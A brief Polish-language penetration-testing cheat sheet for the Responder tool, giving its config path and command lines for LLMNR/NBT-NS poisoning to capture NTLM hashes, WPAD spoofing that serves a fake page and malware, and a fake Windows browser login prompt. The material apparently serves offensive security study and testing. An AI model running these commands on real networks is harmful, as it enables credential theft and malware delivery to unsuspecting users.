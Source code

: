 ## RESPONDER
### Intro
Responder an LLMNR, NBT-NS and MDNS poisoner
### Preq
### Config
/usr/share/responder/Responder.conf
### Uses
Zatruwanie i zbieranie hashy NTLM  
``responder -I eth0``
#### Podkladanie WPAD - fake www + malware
``responder -i eth0 -wFfbv``  
*Serve-Html = on*  
*Serve-Exe = on*
#### Podkladanie WPAD - fakowe windowsowe okno logowania do strony w przegladarce
``responder -I eth0 -r On -w On -wFb``  
*Serve-Html = off*  
*Serve-Exe = off*

